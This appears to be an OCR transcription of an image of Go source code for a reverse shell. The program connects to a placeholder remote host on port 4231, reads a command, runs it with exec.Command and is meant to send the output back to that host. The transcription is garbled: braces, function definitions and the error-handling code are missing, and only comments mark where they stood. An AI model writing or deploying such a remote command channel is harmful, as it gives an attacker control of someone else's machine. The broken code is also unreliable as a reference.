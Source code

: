 # Golang

"bufio" // for reading from the socket

"net" // for creating a socket connection

"os/exec" // for running commands

"strings" // for trimming whitespace from input

"strconv" // for converting the port number to a string

REMOTE\_HOST = "10.X.X.X" // the IP address of the remote host

REMOTE\_PORT = 4231 // the port to connect to on the remote host

// Connect to the remote host

conn, err := net.Dial("tcp", REMOTE\_HOST+":"+strconv.Itoa(REMOTE\_PORT))

// If there was an error, panic

// Defer closing the connection until the function returns

println("Connected to remote host.")

println("Awaiting command...")

// Read a message from the remote host

message, err := bufio.NewReader(conn).ReadString('\n')

// If there was an error, panic

// Trim leading and trailing whitespace from the message

message = strings.TrimSpace(message)

println("Running command:", message)

cmd := exec.Command(message)

output, err := cmd.CombinedOutput()

println("Error running command:", err)

println("Sending response...")

// Send the output and error messages back to the remote host

